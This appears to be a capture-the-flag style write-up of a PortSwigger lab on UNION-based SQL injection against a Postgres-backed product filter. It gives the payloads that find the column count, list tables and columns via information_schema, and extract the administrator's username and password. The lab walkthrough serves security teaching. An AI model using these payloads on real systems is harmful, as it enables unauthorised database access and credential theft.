






# SQL injection attack, listing the database contents on non-Oracle databases

**Lab Url**: [https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)



## Analysis

The initial step is to understand how the vulnerable application works and gather information about the target system. The application showcases a product catalog with a product name and description. The navbar contains a feature to filter out products by category.

We confirmed that the application is running a `Postgres` database.



Using `ORDER BY` clauses, it was determined that the Query returns **two** columns.

```bash
/filter?category=Accessories'+ORDER+BY+2+--
```

## Listing Tables

We can use the payload below to list all tables in the `information_schema`.

```bash
'+union+select+null,table_name+from+information_schema.tables+--
```



From the response, we can determine valuable table names that are likely to contain user information. In this case, this table is `users_zxcvbl`.

## Listing Columns

After finding a table name we can move forward and list all column names inside of that table.

```bash
'+union+select+null,column_name+from+information_schema.columns+where+table_name='users_zxcvbl'+--
```



## Listing Username and Password

Now that we have determined the table and column name, we can move forward and craft a payload to extract the credentials of the `administrator` user.

```bash
'+union+select+null,username_wjxsgn+from+users_zxcvbl+--
```



```bash
'+union+select+username_wjxsgn,password_iylvak+from+users_zxcvbl+--
```



After retrieving the credentials of the `administrator` user log in to solve this lab.


